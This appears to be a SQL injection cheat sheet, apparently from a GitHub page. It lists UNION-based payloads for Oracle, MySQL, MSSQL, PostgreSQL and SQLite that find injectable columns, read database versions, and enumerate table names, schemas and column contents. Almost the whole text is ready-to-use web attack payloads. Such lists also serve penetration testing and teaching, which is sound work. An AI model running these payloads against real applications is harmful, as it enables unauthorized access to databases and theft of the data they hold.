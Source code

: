 ### To find a column containing strings
```sql
' union select null, 'null', null-- -
```
### To fetch database version
```sql
' union select banner, null from v$version-- - >> Oracle

' union select null, @@version-- - >> Mysql, MSsql

' union select null, version()-- - >> PostgreSQL

' union select null, sqlite_version()-- - >> SQLite
```

### To identify vulnerable columns
```sql
' union select 1,2,3,4-- -

union select 1,2,3,4 >> Without quote in vulnerable parameter

and 1=2 union select 1,2,3,4 >> Without quote in vulnerable parameter
```
### String concatenation
```sql
Oracle 	'foo'||'bar'
Microsoft 	'foo'+'bar'
PostgreSQL 	'foo'||'bar'
MySQL 	'foo' 'bar' [Note the space between the two strings]
CONCAT('foo','bar')
```

### SQLite Database info retrieving
```sql
(SELECT group_concat(tbl_name) FROM sqlite_master)

(SELECT sql FROM sqlite_master WHERE name ='[table name here]') >> To retrieve data from one table.

(SELECT sql FROM sqlite_master) >> Useful to retrieve all table and column in a single payload.

(SELECT group_concat([column name here]) from [table name here])

(SELECT group_concat(column1 || "," || column2 || "," || column3 || ":") from [table name here]) >> To retrieve multiple columns data. 
```

### Oracle Database info retrieving
```sql
' union SELECT table_name,null FROM all_tables-- -

' union SELECT column_name,null FROM all_tab_columns WHERE table_name = 'table name'-- - 

' union select [column name here],null from [table name here]-- - 
```
